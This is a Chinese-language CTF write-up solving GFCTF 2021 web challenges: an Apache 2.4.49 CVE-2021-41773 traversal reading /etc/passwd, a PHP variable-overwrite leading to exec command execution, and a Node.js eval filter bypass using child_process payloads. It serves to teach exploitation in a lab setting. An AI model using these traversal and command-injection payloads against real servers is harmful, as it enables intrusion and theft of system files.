



##  复现环境
https://www.ctfer.vip/problem

## GFCTF 2021 Baby_web

###  考点

1. `Apache 2.4.49`的一个目录穿越的`cve`漏洞

2. 利用exec外带命令执行

###  wp

看到`Apache`的版本号是2.4.49，相信很多小伙伴已经意识到前段时间爆出来的`CVE-2021-41773`

payload

```php
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```




拿到源码

index.php

```php
<?php
error_reporting(0);
define("main","main");
include "Class.php";
$temp = new Temp($_POST);//入口
$temp->display($_GET['filename']);//进入display函数，后续进行文件包含
?>
```

Class.php

```php
<?php
defined('main') or die("no!!");
Class Temp{
    private $date=['version'=>'1.0','img'=>'https://www.apache.org/img/asf-estd-1999-logo.jpg'];
    private $template;
    public function __construct($data){

        $this->date = array_merge($this->date,$data); //把一个或多个数组合并为一个数组
    }
    public function getTempName($template,$dir){
        if($dir === 'admin'){  //需要进入这一层
            $this->template = str_replace('..','','./template/admin/'.$template);//此目录下的任意文件
            if(!is_file($this->template)){
                die("no!!");
            }
        }
        else{
            $this->template = './template/index.html';
        }
    }
    public function display($template,$space=''){

        extract($this->date);//变量覆盖 将date数组覆盖掉
        $this->getTempName($template,$space);//让$template为index.html $space为admin
        include($this->template);//包含文件 需要包含./template/admin/index.html
    }
    public function listdata($_params){
        $system = [
            'db' => '',
            'app' => '',
            'num' => '',
            'sum' => '',
            'form' => '',
            'page' => '',
            'site' => '',
            'flag' => '',
            'not_flag' => '',
            'show_flag' => '',
            'more' => '',
            'catid' => '',
            'field' => '',
            'order' => '',
            'space' => '',
            'table' => '',
            'table_site' => '',
            'total' => '',
            'join' => '',
            'on' => '',
            'action' => '',
            'return' => '',
            'sbpage' => '',
            'module' => '',
            'urlrule' => '',
            'pagesize' => '',
            'pagefile' => '',
        ];

        $param = $where = [];

        $_params = trim($_params); //去掉数组前后的空格

        $params = explode(' ', $_params);
        if (in_array($params[0], ['list','function'])) { //以空格为分隔符将字符串分割为数组
            $params[0] = 'action='.$params[0];
        }
        foreach ($params as $t) { //遍历新生成的数组
            $var = substr($t, 0, strpos($t, '=')); //var 为等号 前 的内容
            $val = substr($t, strpos($t, '=') + 1);//val 为等号 后 的内容
            if (!$var) {
                continue;
            }
            if (isset($system[$var])) { //存在$system[$var]就重新赋值
                $system[$var] = $val;
            } else {
                $param[$var] = $val; //不存在就放在$param这个数组里
            }
        }
        // action
        switch ($system['action']) {

            case 'function':

                if (!isset($param['name'])) {
                    return  'hacker!!';
                } elseif (!function_exists($param['name'])) {
                    return 'hacker!!';
                }

                $force = $param['force'];
                if (!$force) {
                    $p = [];
                    foreach ($param as $var => $t) {
                        if (strpos($var, 'param') === 0) { //判断键名是否以param开头
                            $n = intval(substr($var, 5)); //intval()处理字符串直接返回0 
                            $p[$n] = $t;        //--------->可以有 $p[0]=$t
                        }
                    }
                    if ($p) {

                        $rt = call_user_func_array($param['name'], $p); //利用点
                    } else {
                        $rt = call_user_func($param['name']);
                    }
                    return $rt;
                }else{
                    return null;
                }
            case 'list':
                return json_encode($this->date);
        }
        return null;
    }
}
```

`/template/admin/index.html`

```php
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>后台</title>
</head>
<body>
<!--">-->
<div><?php echo $this->listdata("action=list module=$mod");//$mod参数可控，用这里调用listdata
    ?><div> 
    <h6>version: <?php echo $version;?></h6>
</body>
</html>
```

审完代码，利用点在Class.php中的`call_user_func_array`

代码逻辑思路：分析都在上面源码中写了

```
GET -> display -> getTempName -> include包含
POST-> array_merge -> extract(变量覆盖) -> 由于有include，通过$mod进入listdata -> 一大堆字符串生成新数组 -> switch -> call_user_func_array
```

payload：

```
?filename=index.html
space=admin&mod=1 action=function name=phpinfo
```



有`disable_functions`

看能不能写文件（不能出现空格）

```
?filename=index.html
space=admin&mod=1 action=function name=exec param1=cat${IFS}/f*>/var/www/html/1
```


##  GFCTF 2021 文件查看器

###  考点

1. phar反序列化

2. GC回收机制，触发__destruct

3. php://filter吃数据


### wp

http://arsenetang.com/2021/11/29/WP%E7%AF%87%E4%B9%8B%E8%A7%A3%E6%9E%90GFCTF---%E6%96%87%E4%BB%B6%E6%9F%A5%E7%9C%8B%E5%99%A8/


## GFCTF 2021 ez_calc

F12看到源码

```js
if(req.body.username.toLowerCase() !== 'admin' 
&& req.body.username.toUpperCase() === 'ADMIN' 
&& req.body.passwd === 'admin123'){                // 登录成功，设置 session
```

可以看到密码为admin123，账户名小写后不能为admin，大写之后为ADMIN，

小trick:利用特殊字符，比如通过Character.toUpperCose()后，ı会为I，但它经过Charocter.toLowerCose()后并不是i，所以说账户名为admın，登录成功，登录之后继续查看源码：

```js
let calc = req.body.calc;
let flag = false;
//waf
for (let i = 0; i < calc.length; i++) {
    if (flag || "/(flc'\".".split``.some(v => v == calc[i])) {
        flag = true;
        calc = calc.slice(0, i) + "*" + calc.slice(i + 1, calc.length);
    }
}
//截取
calc = calc.substring(0, 64);
//去空
calc = calc.replace(/\s+/g, "");

calc = calc.replace(/\\/g, "\\\\");

//小明的同学过滤了一些比较危险的东西
while (calc.indexOf("sh") > -1) {
    calc = calc.replace("sh", "");
}
while (calc.indexOf("ln") > -1) {
    calc = calc.replace("ln", "");
}
while (calc.indexOf("fs") > -1) {
    calc = calc.replace("fs", "");
}
while (calc.indexOf("x") > -1) {
    calc = calc.replace("x", "");
}

try {
    result = eval(calc);

}
```

执行点就是`eval`函数

代码分析：首先它通过`split`会对输入的参数的每一位都会进行检查，如果出现了`/(flc'\".`中的任意字符，就会将后面所有的字符都变成`*`，然后会将处理后的这个字符串进行截取操作，取前64位，在去除了空格，过滤了危险字符之后，传入`eval`中，看似非常完美的过滤，肯定是无法传入字符串。

我们可以利用数组：

传入数组`["aaaaa","bbbbb",ccccc]`，这样`calc[i]`就不再是单个的字符，而变成了一个字符串了；那么`calc.length`也就是数组中元素的个数，也就是3了；如果传入`["aaaaa","bbbbb","(",]`的话，那么按照这道题的逻辑，它在第3位发现了危险字符，那么就会将第三位以后的字符都替换成`*`，也就是处理成：`aaa***********`



这样看到来`)`是逃逸出来的

给出payload

calc数组长度一定要大于等于前面执行命令的字符串长度

```
calc[]=require('child_process').spawnSync('ls',['/']).stdout.toString();&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=.
```

发现flag的名字很长，直接读取的话长度不够，而且这里过滤了x，也无法直接利用`exec`，但是实际上这里是可以绕过的，因为我们通过`require`导入的模块是一个`Object`，那么就可以通过`Object.values`获取到`child_process`里面的各种方法，那么再通过数组下标`[5]`就可以得到`execSync`了，那么有了`execSync`后就可以通过写入文件的方式读取flag了，`payload`如下:

```
calc[]=Object.values(require('child_process'))[5]('cat${IFS}/G*>p')&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=.
```

最后直接回显：

```
calc[]=require('child_process').spawnSync('nl',['p']).stdout.toString();&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=1&calc[]=.
```
